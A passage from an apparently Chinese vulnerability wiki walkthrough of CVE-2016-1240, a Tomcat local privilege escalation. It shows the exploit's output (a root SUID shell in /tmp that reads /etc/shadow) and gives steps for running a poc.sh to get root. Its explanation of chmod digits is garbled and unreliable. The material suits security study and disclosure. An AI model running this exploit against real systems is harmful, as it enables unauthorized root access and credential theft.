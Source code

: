     [+] Escalating privileges via the /usr/bin/sudo SUID binary to get root!

    [+] Rootshell got assigned root SUID perms at: 
    -rwsrwxrwx 1 root root 1037464 Sep 30 22:27 /tmp/tomcatrootsh

    Please tell me you're seeing this too ;)


    [+] Executing the rootshell /tmp/tomcatrootsh now! 

    tomcatrootsh-4.3# id
    uid=110(tomcat7) gid=118(tomcat7) euid=0(root) groups=118(tomcat7)
    tomcatrootsh-4.3# whoami
    root
    tomcatrootsh-4.3# head -n3 /etc/shadow
    root:$6$oaf[cut]:16912:0:99999:7:::
    daemon:*:16912:0:99999:7:::
    bin:*:16912:0:99999:7:::
    tomcatrootsh-4.3# exit
    exit

首先我们下载poc文件，然后执行命令`cd /tmp`进入目录,然后编辑文件`vim poc.sh`。将桌面的poc.sh使用Notepad++打开，将文件内容粘贴进去。然后按键盘Esc键，再输入`:wq`，之后按
Enter 键将文件保存。 如果无法写入文件，使用命令

    chmod 755 poc.sh

执行命令后，再次重复上一步即可，chmod的意思是改变文件的权限，775是什么权限呢？第一个数字代表文件所属者的权限，第二个数字代表文件所属者所在组的权限，第三个数字代表其它用户的权限，7=4+2+1

> 4：执行时设置用户ID，用于授权给基于文件属主的进程，而不是给创建此进程的用户。
> 2：执行时设置用户组ID，用于授权给基于文件所在组的进程，而不是基于创建此进程的用户。
> 1：设置粘着位。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2016-1240)Tomcat本地提权漏洞/media/rId34.gif)

这时，poc文件就已经构造好了，接下来运行脚本运行命令为：

    ./poc.sh /var/log/tomcat7/catalina.out

运行之后，会出现卡顿现象，这时候我们切换到root用户，重新启动Tomcat7，这时候使用命令`whoami`查看当前用户，这时候已经是
root 用户了，这时候就提权成功了

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2016-1240)Tomcat本地提权漏洞/media/rId35.gif)

可以看到，命令提示符的开头为`tomcat`低权限用户，而我们执行whoami命令的时候，显示的权限却是root，这样就成功的提权了。

参考链接
--------

> <https://www.jianshu.com/p/94e4feac245f>
